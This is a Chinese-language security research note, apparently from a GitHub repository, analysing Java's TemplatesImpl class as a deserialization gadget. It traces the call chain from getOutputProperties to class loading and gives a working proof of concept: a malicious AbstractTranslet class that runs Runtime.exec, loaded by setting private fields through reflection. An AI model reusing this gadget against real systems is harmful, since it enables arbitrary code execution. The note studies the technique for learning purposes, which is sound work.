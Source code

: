 # TemplatesImpl
- [TemplatesImpl](#templatesimpl)
  - [ClassLoader](#classloader)
    - [defineClass类加载](#defineclass类加载)
  - [TransletClassLoader#defineClass](#transletclassloaderdefineclass)
    - [defineTransletClasses](#definetransletclasses)
      - [getTransletClasses()](#gettransletclasses)
      - [getTransletIndex()](#gettransletindex)
      - [getTransletInstance()](#gettransletinstance)
    - [newTransformer()](#newtransformer)
  - [POC构造](#poc构造)
    - [关键点](#关键点)

## ClassLoader
每个ClassLoader对象都是一个java.lang.ClassLoader的实例,每一个class对象都是由ClassLoader对象来加载,也可以继承java.lang.ClassLoader来扩展自定义ClassLoader来加载类.  
### defineClass类加载
在ClassLoader中有一个defineClass可以通过参数b传入字节码来加载一个Class.
```java
    protected final Class<?> defineClass(String name, byte[] b, int off, int len,
                                         ProtectionDomain protectionDomain)
        throws ClassFormatError
    {
        protectionDomain = preDefineClass(name, protectionDomain);
        String source = defineClassSourceLocation(protectionDomain);
        Class<?> c = defineClass1(name, b, off, len, protectionDomain, source);
        postDefineClass(c, protectionDomain);
        return c;
    }
```
## TransletClassLoader#defineClass
在java.lang.ClassLoader中的defineClass属性为protected,无法直接在外部访问,只能通过反射调用.而在TemplatesImpl.java中有一个TransletClassLoader类,其中继承了ClassLoader并重写了defineClass,其中没有显式声明作用域,而默认下为作用域default,代码如下
```java
Class defineClass(final byte[] b) {
            return defineClass(null, b, 0, b.length);
        }
```
### defineTransletClasses
而引用了TransletClassLoader.defineClass的的地方则是在defineTransletClasses().
![](2021-12-21-11-40-42.png).
可以看到将属性`_bytecodes`值传入loader.defineClass中,同时该属性为private访问权限.
而引用了defineTransletClasses()的地方一共有三处:
* getTransletClasses()
* getTransletIndex()
* getTransletInstance()
#### getTransletClasses()
相关代码如下
```java
    private synchronized Class[] getTransletClasses() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _class;
    }
```
在该方法中,虽然调用了defineTransletClasses()方法来加载了我们指定的类,但却没有对该类进行实例化,导致无法执行类中的静态代码块,也就无法执行我们的恶意代码.
#### getTransletIndex()
```java
    public synchronized int getTransletIndex() {
        try {
            if (_class == null) defineTransletClasses();
        }
        catch (TransformerConfigurationException e) {
            // Falls through
        }
        return _transletIndex;
    }
```
该方法同理,也没有进行实例化.
#### getTransletInstance()
```java
    private Translet getTransletInstance()
        throws TransformerConfigurationException {
        try {
            if (_name == null) return null;

            if (_class == null) defineTransletClasses();

            // The translet needs to keep a reference to all its auxiliary
            // class to prevent the GC from collecting them
            AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();
            ...
            ...
            ...
```
在该方法中,调用了`_class`的newInstance(),也就是对加载的指定类进行了实例化,我们的恶意代码也就可以自动触发了.
### newTransformer()
可以看到只有getTransletInstance()符合要求,而引用了getTransletInstance()的地方则是在newTransformer()中.
```java
    public synchronized Transformer newTransformer()
        throws TransformerConfigurationException
    {
        TransformerImpl transformer;

        transformer = new TransformerImpl(getTransletInstance(), _outputProperties,
            _indentNumber, _tfactory);
            ...
            ...
            ...
```
可以看到该类必须要是一个AbstractTranslet类型,而该类为一个抽象类,也就是我们传入的类也要是AbstractTranslet类的实现类.
而newTransformer()则是在getOutputProperties()中
```java
    public synchronized Properties getOutputProperties() {
        try {
            return newTransformer().getOutputProperties();
        }
        catch (TransformerConfigurationException e) {
            return null;
        }
    }
```
## POC构造
现在的触发流程如下:
1. getOutputProperties()->newTransformer()
2. newTransformer()->getTransletInstance()
3. getTransletInstance()->defineTransletClasses()
4. defineTransletClasses()->TransletClassLoader()
5. TransletClassLoader()->defineClass()
6. defineClass()->加载指定类
7. _class.newInstance()实例化指定类,触发静态代码块或者构造函数中的恶意代码.

继承了AbstractTranslet的恶意类实例代码:
```java
public class Poc extends AbstractTranslet {
    public Poc() throws Exception {
        Runtime.getRuntime().exec("calc.exe");
    }
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    public static void main(String[] args) throws Exception{
        Poc poc = new Poc();
    }

}
```
从getOutputProperties当入口为例.
```java
 public static void main(String[] args) throws Exception {
        TemplatesImpl jrs = new TemplatesImpl();
        byte [] code = getbytes("D:\\\\coding\\\\Temlpates\\\\target\\\\test-classes\\\\Poc.class");
        setFieldValue(jrs,"_bytecodes",new byte[][] {code});
        setFieldValue(jrs,"_name","1");
        setFieldValue(jrs,"_tfactory",new TransformerFactoryImpl());
        jrs.getOutputProperties();
    }
    public static Field getField(final Class<?> clazz, final String fieldName) {
        Field field = null;
        try {
            field = clazz.getDeclaredField(fieldName);
            field.setAccessible(true);
        }
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }

    public static byte[] getbytes(String filename) throws Exception{
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(filename)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        byte[] result = bos.toByteArray();
        return result;
    }
}
```
![](2021-12-21-19-19-55.png)

### 关键点
1. 通过反射来设置TemplatesImpl的相关属性.
2. _name属性要不为空.
![](2021-12-21-19-17-09.png)
3. _tfactory属性要为TransformerFactoryImpl对象.
![](2021-12-21-19-17-47.png)
不然在生成TransletClassLoader时会报错.
![](2021-12-21-19-18-16.png)

